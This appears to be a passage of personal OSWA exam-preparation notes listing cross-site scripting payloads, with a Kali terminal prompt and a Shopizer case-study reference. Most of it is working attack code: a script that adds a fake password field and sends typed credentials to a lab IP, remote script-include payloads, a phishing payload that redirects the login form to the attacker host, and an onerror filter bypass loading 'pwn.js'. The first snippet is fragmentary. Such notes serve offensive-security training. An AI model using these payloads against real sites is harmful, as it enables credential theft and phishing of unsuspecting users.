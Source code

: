 ```bASH
var p = document.createElement("input");
p.type = "password";
p.style.position = "fixed";
//p.style.opacity = "0";

body.append(u)
body.append(p)

setTimeout(function(){ 
    fetch("http://192.168.45.236:80/k?u=" + u.value + "&p=" + p.value)
}, 5000);
                 
┌──(root💀gobots)-[05Aug2024 20:49:27]-[/home/kali/SUT/OSWA/xss]
└─# python3 -m http.server 80 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
Payload
```bash
<script src="http://192.168.45.236:80/xss5.js"></script>
```
---------
###### Payload 6 - `PHISHING USERS`
xss6.js
```js
fetch("login").then(res => res.text().then(data => {
	document.getElementsByTagName("html")[0].innerHTML = data
	document.getElementsByTagName("form")[0].action = "http://192.168.45.236"
	document.getElementsByTagName("form")[0].method = "get"
}))
```
Payload
```bash
<script src="http://192.168.45.236:80/xss6.js"></script>
```
###### Payload 7 - `innerHTML Bypass method`
payload to bypass `innerHTML` - `onerror` method
```bash
<img src="nonexistent.jpg" onerror="this.onerror=null;document.write('<script src=\'http://192.168.45.231:8000/pwn.js\'><\/script>');" />
```

###### Payload 8 - `jQuery Library - jQuery.getScript() function`

[[5.2 - 5.2.4 Case Study - Shopizer Reflected XSS]]
We can find the JavaScript files Shopizer uses by clicking on `http://shopizer:8080`> `resources` > `js`.
- in `OSWA` its probably safe to assume that the `jQuery.getScript()`function exists if their is `js resources`
![[Pasted image 20241223154252.png]]
The Shopizer application loads several jQuery files. The [jQuery library](https://en.wikipedia.org/wiki/JQuery) makes DOM manipulation easier in JavaScript with helper functions. One of the helper functions we're interested in is the [_jQuery.getScript()_](https://api.jquery.com/jquery.getscript/) function to load and execute a remote JavaScript file.
